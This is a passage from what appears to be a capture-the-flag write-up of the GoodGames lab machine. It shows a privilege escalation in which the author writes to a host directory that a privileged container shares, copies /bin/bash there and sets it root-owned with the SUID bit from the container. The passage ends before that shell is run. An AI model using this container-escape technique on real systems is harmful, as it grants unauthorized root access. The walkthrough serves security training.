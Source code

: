 And we are out of the container! However, we are not root now. How could we get root having access to a privileged container and
to a less privileged user in the host machine?

## [](#step3-crafting-the-attack)Step 3 - Crafting the attack

The initial step to consider is verifying whether file transfers from the privileged container to the 'augustus' user are feasible. Given that /dev/sda1 is mounted at /home/augustus, a practical approach would be to copy a file into this directory from within the host. Subsequently, we can check if the file appears on the container to confirm the transfer's success.

Inside the host with 'augustus' user, we run:

```bash
augustus@GoodGames:~$ touch test-file
touch test-file
augustus@GoodGames:~$ ls -la
ls -la
total 24
drwxr-xr-x 2 augustus augustus 4096 Jan 13 16:45 .
drwxr-xr-x 3 root     root     4096 Oct 19  2021 ..
lrwxrwxrwx 1 root     root        9 Nov  3  2021 .bash_history -> /dev/null
-rw-r--r-- 1 augustus augustus  220 Oct 19  2021 .bash_logout
-rw-r--r-- 1 augustus augustus 3526 Oct 19  2021 .bashrc
-rw-r--r-- 1 augustus augustus  807 Oct 19  2021 .profile
-rw-r--r-- 1 augustus augustus    0 Jan 13 16:45 test-file
-rw-r----- 1 root     augustus   33 Jan 12 23:04 user.txt   
```

Then, we go back to the container and see if the file is present:

```bash
root@3a453ab39d3d:/home/augustus# ls -la test-file
ls -la test-file
-rw-r--r-- 1 1000 1000 0 Jan 13 16:45 test-file
```

Success! As we can access files created by 'augustus', we have the potential to gain root access. This can be achieved by copying the /bin/bash binary to /home/augustus inside the host machine, setting its SUID bit and onwership to root in the container, and then executing it in the 'augustus' user. This method is likely to grant us root access on the host machine. 


## [](#solving) Getting root

Let's try it out! First, we run:

```bash
augustus@GoodGames:~$ cp /bin/bash ./badbash
cp /bin/bash ./badbash
```

Then:

```bash
root@3a453ab39d3d:/home/augustus# chown root:root badbash
chown root:root badbash
root@3a453ab39d3d:/home/augustus# chmod 4777 badbash
chmod 4777 badbash
root@3a453ab39d3d:/home/augustus# ls -la badbash
ls -la badbash
-rwsrwxrwx 1 root root 1168776 Jan 13 16:48 badbash
```
